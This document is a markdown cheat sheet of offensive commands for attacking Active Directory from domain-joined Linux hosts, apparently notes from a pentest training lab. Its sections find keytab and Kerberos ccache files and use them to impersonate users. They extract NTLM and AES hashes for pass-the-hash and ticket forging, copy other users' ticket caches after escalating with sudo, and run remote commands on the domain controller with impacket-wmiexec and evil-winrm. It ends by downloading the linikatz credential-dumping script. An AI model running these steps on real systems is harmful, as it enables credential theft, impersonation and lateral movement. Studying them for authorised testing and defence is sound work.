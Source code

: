  # Atk AD from linux tips

## realm - check if linux machine is domain-joined
```
realm list

# Kerberos member ?
# Domain name ?
```

## PS - Check if Linux Machine is Domain Joined
```
ps -ef | grep -i "winbind\|sssd"
```

## Find to Search for Files with Keytab in the Name
```
find / -name *keytab* -ls 2>/dev/null
```

## Identifying Keytab Files in Cronjobs
```
crontab -l
# if kinit, kerberos is used 
# kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache</mark> (ccache file).
# use `kinit` to import a `keytab` into our session and act as the user
```

## Find ccache files
```
# Find ccache files
env | grep -i krb5

ls -la /tmp #kbrb5cc_???
```

## Abuse keytab files
```
# Abuse keytab files > Impersonate user using kinit

## List keytab file info
klist -k -t

## impersonate a user with a keytab
kinit <USER>@<DOMAIN> -k -t /.../<USER>.keytab
klist # confirm import

## connect to share
smbclient //dc01/<USER> -k -c ls

# Extract secrets from keytab
python3 /opt/keytabextract.py /../<USER>.keytab
## Use NTLM hash for PtH, AES256 hash to forge tickets in rubeuse/crack to get plaintext passwd
```

## Abuse keytab ccache
```
# Need read priv on the ccache file
sudo -l
sudo su

# look for ccache files, note the file owner of krb5cc_*
ls -la /tmp

# Check Group membership of file owner
id <USER(>@<Domain>)

# Import ccache file in current session
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=<FILE TO PATH> # Check date validity of ccache file
klist
```

## Abuse keyberos from a linux host using a pivot machine
```
# Set env var
export KRB5CCNAME=<FILE TO PATH>

# Use the kerberos ticket
# -no-pass for no password prompt
# DC01 = KDC
proxychains impacket-wmiexec dc01 -k
```

## evil-winrm - use kerberos auth
```
# install krb5-user package
# need to install the Kerberos package used for network authentication

# update conf for domain
$ cat /etc/krb5.conf
[libdefaults]
        default_realm = <DOMAIN>

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.<DOMAIN>
    }

<SNIP>

# Connect using a pivot
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## impacket ticket convertor - ccache <> kirbi
```
# ccache2kirbi
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

## linikatz - exploit creds on linux if integration with AD
```
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```
